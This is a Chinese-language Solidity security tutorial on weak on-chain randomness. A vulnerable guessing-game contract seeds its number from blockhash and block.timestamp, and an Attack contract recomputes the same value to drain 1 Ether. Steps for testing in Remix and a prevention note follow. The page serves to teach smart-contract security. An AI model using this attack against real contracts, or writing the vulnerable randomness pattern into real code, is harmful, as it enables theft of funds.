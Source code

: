# Source of Randomness
## 漏洞
blockhash和block.timestamp不是可靠的随机性来源。


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
注意：无法在Remix中使用blockhash，因此请使用ganache-cli

npm i -g ganache-cli
ganache-cli
在Remix中切换环境到Web3提供程序
*/

/*
GuessTheRandomNumber是一个游戏，如果你能猜出从区块哈希和时间戳生成的伪随机数，你就能赢得1 Ether。

乍一看，似乎不可能猜出正确的数字。
但是让我们看看赢得游戏有多么容易。

1. Alice部署GuessTheRandomNumber并放入1 Ether
2. Eve部署Attack
3. Eve调用Attack.attack()并赢得1 Ether

发生了什么？
Attack通过简单地复制计算随机数的代码，计算出了正确的答案。
*/

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // 检查余额的辅助函数
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
## 预防技术
不要使用blockhash和block.timestamp作为随机性来源。

## remix验证
1.因为无法在Remix中使用blockhash，因此切换至ganache-cli
![71-1.png](img/71-1.png)
2.部署GuessTheRandomNumber并放入1 Ether
![71-2.png](img/71-2.png)
3.部署Attack合约，调用attack()函数，输入GuessTheRandomNumber合约地址，获取1 ETH 验证
![71-3.png](img/71-3.png)